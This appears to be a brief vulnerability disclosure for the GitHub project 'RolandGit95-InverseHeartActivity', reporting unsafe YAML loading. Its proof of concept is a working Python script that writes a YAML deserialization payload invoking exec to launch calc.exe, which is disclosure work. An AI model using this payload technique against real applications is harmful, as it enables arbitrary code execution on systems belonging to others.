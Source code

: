 # Description

`RolandGit95-InverseHeartActivity` is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```python
import os

os.system('git clone https://github.com/RolandGit95/RolandGit95-InverseHeartActivity')
os.chdir('Reconstructing3D/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open('config.yml','w+').write(payload)

os.system('python3 main.py -config config.yml')
```
* `python3 exploit.py`


# Impact

Arbitary Code Execution
